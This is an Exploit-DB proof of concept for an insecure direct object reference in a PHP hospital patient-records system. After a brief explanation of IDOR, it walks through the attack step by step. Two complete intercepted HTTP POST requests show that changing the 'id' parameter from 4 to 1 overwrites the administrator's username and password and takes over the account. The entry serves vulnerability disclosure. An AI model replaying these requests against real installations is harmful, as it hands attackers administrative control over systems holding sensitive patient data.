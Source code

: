 # Hospital's Patient Records Management System v1.0 - 'id' Insecure direct object references (IDOR) leads to Account TakeOver
Original link: https://www.exploit-db.com/exploits/50631
```bash
# Exploit Title: Hospital's Patient Records Management System v1.0 - 'id' Insecure direct object references (IDOR) leads to Account TakeOver
# Date: 2021-12-30
# Exploit Author: twseptian
# Vendor Homepage: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hprms_0.zip
# Version: v1.0
# Tested on: Kali Linux 2021.4
```

## Insecure direct object references (IDOR)
Insecure Direct Object References (IDOR) occur when an application provides direct access to objects based on user-supplied input.Insecure Direct Object References allow attackers to bypass authorization and access resources directly by modifying the value of a parameter used to directly point to an object. Such resources can be database entries belonging to other users, files in the system.

## Attack Vector
An attacker can takeover the Administrator's account

## Steps of reproduce:
Note: in this case, we used two users, user1 as a staff with user id '4', and admin as an Administrator with user id '1'.

- Step-1: Log in to the application using user1 account,then on the dashboard navigate to 'My Account' -> http://localhost/hprms/admin/?page=user

- Step-2: Modify the username,lastname and password,then let's intercept the request using burpsuite:
```html
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

4
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```
- Step-3: Change parameter id '4' to id '1'
```html
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```
- step-4: Click 'Forward' on burpsuite. Now user1 is a Administrator.
